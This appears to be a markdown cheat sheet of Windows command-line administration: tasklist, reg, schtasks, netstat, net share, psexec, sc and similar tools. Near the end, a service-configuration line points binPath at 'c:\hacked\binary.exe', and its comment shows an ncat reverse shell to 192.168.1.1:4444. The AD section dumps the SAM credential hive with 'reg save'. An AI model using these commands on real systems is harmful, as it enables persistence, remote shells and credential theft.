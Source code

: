 # Basic Windows 

- https://learn.microsoft.com/en-us/sysinternals/
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands
## Processes

```
tasklist /?
tasklist /fi (username eq myuser) /v /fo table | find "cmd"
tasklist /fo csv

taskkill /pid somepid

wmic process where (ProcessId=<processID>) get Caption,ProcessId,ParentProcessID

pslist /?
pslist -d
pslist -t

pskill
pssuspend
```

## Programs

```
listdlls
listdlls -u # unsigned

set PATH=%PATH%;C:\Users\myuser\Downloads\SysinternalsSuite

dir /s *somefile*
```

### Registry

```
reg /?
reg query hkcu\software\microsoft\windows\currentversion\runonce
reg query hkcu\software\microsoft\windows\currentversion\run
reg delete
reg add hkcu\software\myregistrydirectory /v mykey /t myvaluetype /d myvalue
reg query hklm\path\to\key
reg export hkxx\path\to\key keyfilename

schtasks /?
schtasks /create /tn mytask /sc onstart # on reboot
schtasks /run /i /tn mytast # force run

fsutil
fsutil fsinfo
fsutil fsinfo drives
fsutil fsinfo drivetype c:
fsutil fsinfo volumeinfo c:

systeminternalsuite\du -accepteula c:

dir /r
sysinternalsuite\stream.exe -accepteula

c:\Windows\System32\conhost.exe
```

## System

```
systeminfo /s somehost /u someuser\somedomain /p somepass

set
setx
setx varsystemwide "someprg.exe" /m
```

## Networking

```
ipconfig /all
ipconfig /renew "myadapter"

netstat -ano
arp -s
route print
ping -n
tracert
pathping
```

### Shares

```
nbtstat /n # netBios ports 135, 138, 139
nslookup

net share
net share mysharename=c:\my\share\dir
net use
net use f: \\hostnameorip\dir /user:someuser /persistent:no
```

### Remote connexions

```
nc -s ipaddr -l -n -v -p portnum # listener
nc ipaddr portnum # open connection
socat

psexec -i \\remotecomputer cmd /c "somecommandtorunontheremote"
psexec -i \\remotecomputer -s cmd /c "somecommandtorunontheremote" # system privileges
psexec -i \\remotepc -u user -p pass cmd # interactive connexion
```

## Firewall

```
netsh advfirewall show allprofiles
netsh advfirewall set ?
netsh advfirewall add rule ?
```

## Services

```
sc start WSearch

tasklist /svc # list all services
sc query someservice # query one
sc qc someservice
PsService.exe query WSearch
PsService.exe config WSearch
net stop WSearch
net start WSearch
sc config WSearch start=auto
psservice config WSearch

psservice setconfig someservice auto
sc config someservice binPath="c:\hacked\binary.exe" # "ncat.exe 192.168.1.1 4444 -e cmd.exe"
```

## LDAP

```
Get-ADObject -LDAPFilter '(&(objectClass=organizationalUnit)(!(OU=Domain Controllers)))'
```

## AD

```
reg save HKLM\sam c:\temp\samfile
```
